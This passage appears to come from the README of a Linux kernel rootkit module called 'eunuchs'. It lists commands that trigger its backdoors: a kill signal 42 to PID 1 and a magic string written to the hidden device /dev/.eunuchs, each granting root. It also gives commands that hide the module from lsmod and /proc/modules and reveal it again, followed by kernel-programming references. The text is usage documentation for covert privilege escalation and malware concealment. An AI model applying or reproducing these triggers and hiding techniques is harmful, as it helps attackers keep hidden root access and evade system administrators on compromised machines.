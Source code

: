 ```
3. Verify a shell is spawned which has root credentials.

To verify that the `kill` intercept works, perform the following while the module is loaded:
1. `id` and `whoami`. Verify that you do not have root priviledges.
2. `/usr/bin/kill -s 42 1`
3. `id` and `whoami`. Verify that you now have root priviledges.

To verify that the character device method works, perform the following while the module is loaded:
1. `id` and `whoami`. Verify that you do not have root priviledges.
2. `echo icanhazr00t? > /dev/.eunuchs` (NOTE: You may need to escape the question mark in this command, depending on your shell.)
3. `id` and `whoami`. Verify that you now have root priviledges.

<a name="lkm"></a>
###### LKM Hiding / Showing
This module is also capable of hiding itself from being listed when the user executes `lsmod` or views `/proc/modules`. To verify this, perform the following steps:
1. Insert the module.
2. Execute `lsmod` and `cat /proc/modules`. Verify that both commands return a listing which contains the name of this module (`eunuchs`).
3. `echo kthxbye > /dev/.eunuchs`
4. Repeat step 2 to verify that both commands now return a listing which no longer contains an entry for this module.
5. `echo lemmesee > /dev/.eunuchs`
6. Repeat step 2 to verify that the entry has returned.

<a name="references"></a>
### References
 * https://elixir.bootlin.com/linux/v4.19.67/source/
 * https://www.tldp.org/LDP/lkmpg/2.6/lkmpg.pdf
 * https://www.kernel.org/doc/Documentation/security/credentials.txt
 * https://stackoverflow.com/questions/8250078/how-can-i-get-a-filename-from-a-file-descriptor-inside-a-kernel-module
 * https://yassine.tioual.com/index.php/2017/01/10/hiding-processes-for-fun-and-profit/
 * https://stackoverflow.com/questions/1184274/read-write-files-within-a-linux-kernel-module
